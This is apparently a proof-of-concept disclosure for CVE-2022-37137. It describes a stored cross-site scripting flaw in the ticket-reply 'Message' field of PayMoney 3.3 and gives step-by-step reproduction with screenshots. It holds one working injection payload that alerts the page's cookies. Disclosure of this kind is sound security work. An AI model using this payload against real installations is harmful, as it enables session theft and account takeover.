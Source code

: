 # CVE-2022-37137
```
# Exploit Title: PayMoney 3.3 is vulnerable to Stored Cross-Site Scripting (XSS) during replying the ticket
# Date: 24/07/2022
# Exploit Author: saitamang
# Vendor Homepage: https://paymoney.techvill.org/
# Software Link: https://paymoney.techvill.org/
# Version: 3.3
```

## Description
The XSS can be obtain from injecting under "Message" field with "description" parameter with the specially crafted payload to gain Stored XSS.
The XSS then will prompt after that or can be access from the view ticket function.

## Attack Vector
1. The user first must created a ticket.
<img src="https://raw.githubusercontent.com/saitamang/POC-DUMP/main/PayMoney/img/xss1/1.png">

2. Then on the replying the ticket under "Message" field with "description" parameter, inject the payload below to gain Stored Cross-Site Scripting(XSS).
```
"><svg/onload=alert(document.cookie)>
```
<img src="https://github.com/saitamang/POC-DUMP/blob/main/PayMoney/img/xss1/2.png?raw=true">

<img src="https://github.com/saitamang/POC-DUMP/blob/main/PayMoney/img/xss1/3.png?raw=true">

3. The XSS will prompt or can be access from the view ticket function

<img src="https://github.com/saitamang/POC-DUMP/blob/main/PayMoney/img/xss1/4.png?raw=true">



